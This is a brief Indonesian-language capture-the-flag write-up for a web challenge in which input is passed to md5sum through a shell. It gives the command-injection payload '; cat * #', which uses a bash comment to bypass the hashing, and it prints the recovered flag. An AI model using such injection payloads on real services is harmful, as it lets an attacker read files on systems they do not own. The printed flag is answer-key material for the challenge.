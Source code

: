 # __ASGama CTF__ 
## _Zuper Hazher_

## Information
**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
Web | 60 | l0l

**Description:** 

> http://ctf.asgama.web.id:40111/
>
> [source](./zuperhasher.txt)

### Zuper Hazher
Mirip seperti [KimiNoNawa](../Kimi\ No\ Nawa/README.md). Hanya saja kali ini apapun outputnya dimasukkan sebagai input untuk `md5sum`.

Dapat dengan mudah di bypass dengan menambahkan `#` (tanda komentar pada bash) di akhir input

### Payload
```
; cat * #
```

### Result
```
GamaCTF{Sl4lu_T3tap_D1_H4t1} 
```

### Flag
GamaCTF{Sl4lu_T3tap_D1_H4t1} 